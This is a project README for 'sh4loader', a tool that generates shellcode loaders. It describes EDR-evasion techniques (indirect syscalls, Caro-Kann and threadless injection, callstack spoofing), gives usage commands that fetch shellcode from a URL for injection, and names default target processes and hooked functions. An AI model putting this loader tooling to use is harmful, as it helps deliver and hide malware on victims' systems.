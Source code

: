 # This project is being refactored

# sh4loader

<p align="center">
<img src="https://raw.githubusercontent.com/Sh4N4C1/gitbook/main/images/sh4loader.png" alt="sh4loader">
</p>

## ✨ Function

- **Indirect Syscall**: sh4loader use `indirect` syscall.
- **Caro Kann**: sh4loader use [Caro-Kann](https://github.com/S3cur3Th1sSh1t/Caro-Kann) injection to evade kernel triggered memory scans.
- **Runtime Decrypt Shellcode**: sh4loader will bruteforce shellcode decryption key at runtime.
- **Threadless injection**: sh4loader use threadless injection.
- **CallstackSpoofing**: sh4loader use [CallstackSpoofing](https://github.com/pard0p/CallstackSpoofingPOC)

## Injection Method

- Local Common Injection
- Callstack spoof common Injection
- Caro-Kann Callstack spoof common Injection
- Caro-Kann threadless Injection
- Caro-Kann callstack spoff threadless Injection

## Install

```bash
git clone https://github.com/sh4n4c1/sh4loader.git
cd sh4loader
cargo build --release
./target/release/sh4loader --help
```

if build failed, we need update rustc

```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh # update rustc
```

## Usage

```bash
sh4loader <injection-method> --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

## Detail

### Caro-Kann Callstack spoof threadless Injection

```bash
sh4loader kann-threadless-stack --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This implant will find two memory, one for the `xor-encrypted main shellcode`, and one for the `Caro-Kann shellcode`. In threadless injection, it will first hook the target function, and then jump to the fixed shellcode to save the function state and then jump Go to Caro-Kann shellcode, Caro-Kann will help us decrypt and execute the main shellcode

```
  TARGET PROCESS
+-----------------+
|  [function A]   |------+ hooked function called and jump to our <save and jump shellcode> (1)
|    <hooked>     |      |
+-----------------+      |
|   MEMORY HOLE   |      |
| <save and jump> |<-----+ the <save and jump shellcode> will save hooked function state and jump to Caro (2)
|   <Caro-Kann>   |------+ <Caro-Kann shellcode> will sleep and decrypt <main shellcode> (3)
+-----------------+      |
|  [function B]   |      |
+-----------------+      |
|   MEMORY HOLE   |      |
| <main shellcode>|<-----+ <Caro-Kann shellcode> jump to <main shellcode> (4)
+-----------------+
```

1. During the execution of the implant, shellcode is patched to save the jump address.
2. [Callstack spoof](https://github.com/pard0p/CallstackSpoofingPOC) means that NtAPI will be called using the TpReleaseWork proxy.
3. The default function A and function B are `NtWaitForMultipleObjects` and `NtCreateWnfStateName` respectively. The default process is `RuntimeBroker`,because after using API Monitor I found that the RuntimeBroker process seems to call NtWaitForMultipleObjects every other time, and the NtCreateWnfStateName function is used to store the main shellcode.If you want to modify these default functions and processes, you can modify `include/KannThreadStackInj.h` in the implant project directory and Recompile with command `make KannThreadlessStackInj`

```c
// include/KannThreadStackInj.h

#define TARGET_PROCESS "RuntimeBroker.exe"      // Target process
#define TARGET_FUNC_TWO "NtCreateWnfStateName"  // Function B
#define TARGET_DLL "ntdll.dll"                  // Dll export Function A/B
#define TARGET_FUNC "NtWaitForMultipleObjects"  // Function A
```

### Caro-Kann threadless Injection

```bash
sh4loader kann-threadless-stack --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

Same as above, but using indirect syscalls instead of proxy calls.

### Caro-Kann Callstack spoof common Injection

```bash
sh4loader kann-spoofstacks --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method will use TpRelease proxy call `NtAllocateVirtualMemory` + `NtWriteVirtualMemory` + `NtCreateThreadEx` to inject Caro-Kann shellcode and encrypted main shellcode into the local process.

### Callstack spoof common Injection

```bash
sh4loader spoofstacks --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method will use TpRelease proxy call `NtAllocateVirtualMemory` + `NtWriteVirtualMemory` + `NtCreateThreadEx` to inject main shellcode into the local process.

### Local Common Injection

```bash
sh4loader common --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method just use indirect syscalls inject main shellcode into the local process.

## Resources

- https://github.com/pard0p/CallstackSpoofingPOC
- https://github.com/CCob/ThreadlessInject
- https://github.com/S3cur3Th1sSh1t/Caro-Kann
- https://github.com/caueb/ThreadlessStompingKann
- https://0xdarkvortex.dev/hiding-in-plainsight/
- https://maldevacademy.com/
- https://www.vulnlab.com/

This is my first time writing a loader.I'm not some sort of expert on malware development, C, C++.I will be making a lot of mistakes,I hope that my coding skills get better and better

Obviously, the stuff in this repository is explicitly for educational purposes.

